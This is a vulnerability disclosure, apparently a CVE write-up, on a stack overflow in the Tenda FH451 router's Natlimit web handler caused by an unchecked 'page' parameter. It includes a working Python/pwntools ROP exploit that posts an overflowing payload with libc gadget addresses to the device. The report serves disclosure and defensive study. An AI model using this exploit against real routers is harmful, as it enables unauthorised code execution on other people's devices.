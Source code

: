 # Shenzhen Jixiang Tengda Technology Co., Ltd. FH451 has a Remote Code Execution vulnerability

**Vulnerability URL**: [http://0.0.0.0:80/goform/Natlimit](http://0.0.0.0:80/goform/Natlimit)

**Firmware Download Link:** [https://www.tenda.com.cn/material/show/1629](https://www.tenda.com.cn/material/show/1629)

## Vulnerability Analysis
The vulnerability occurs in the `fromNatlimit` function.

![Image 1](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/Natlimit1.png)

The program retrieves the user input parameter `page` at line 11 but does not perform any size check. When the parameter value is excessively large, it will causes a stack overflow in the `sprintf` function at line 12, which can lead to a program crash or potential exploitation.  
Cross-referenced location: from the `fromNatlimit` function, routed to `Natlimit`, at line 48.
![Image 2](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/Natlimit2.png)

Further cross-referenced to the `sub_64EAC` function, with attention to lines 44 and 47.
![Image 3](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromAddressNat3.png)

It can be determined that the vulnerability occurs at the page path `goform/Natlimit`.

## payload
```python
import requests
from pwn import *

libc = ELF('./squashfs-root/lib/libc.so.0')
system_offset = libc.symbols["system"]
base = 0x3fe36000

system_addr = base + system_offset
puts = base+libc.symbols['puts']
str = b"hello-I-am-fzz\x00"
mov_r0 = base+0x00040cb8 # mov r0, sp; blx r3;
pop_r3 = base+0x00018298 # pop {r3, pc};
payload = b'a'*255 + p32(pop_r3)+p32(puts)+p32(mov_r0)+str

IP = '0.0.0.0:80'
url = f"http://{IP}/goform/Natlimit"

data = {
    "page": payload
}
ret = requests.post(url,data=data)
```

# reproduce
![Image 4](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/Natlimit4.png)
![Image 5](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/Natlimit5.png)
![Image 6](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/Natlimit6.png)
